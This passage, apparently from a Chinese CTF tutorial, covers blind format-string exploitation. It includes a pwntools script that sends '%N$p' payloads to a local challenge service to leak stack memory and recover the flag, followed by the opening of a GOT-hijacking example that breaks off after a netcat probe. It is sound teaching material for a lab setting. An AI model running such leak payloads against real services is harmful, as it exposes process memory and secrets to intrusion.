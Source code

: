 告诉我们 flag 在栈上，同时知道了该程序是 64 位的，而且应该有格式化字符串漏洞。

#### 利用

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```

最后在输出中简单看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```

### 例子2-盲打劫持got

源码以及部署文件均已经在 [blind_fmt_got](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/blind_fmt_got) 文件夹中。

#### 确定程序位数

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。
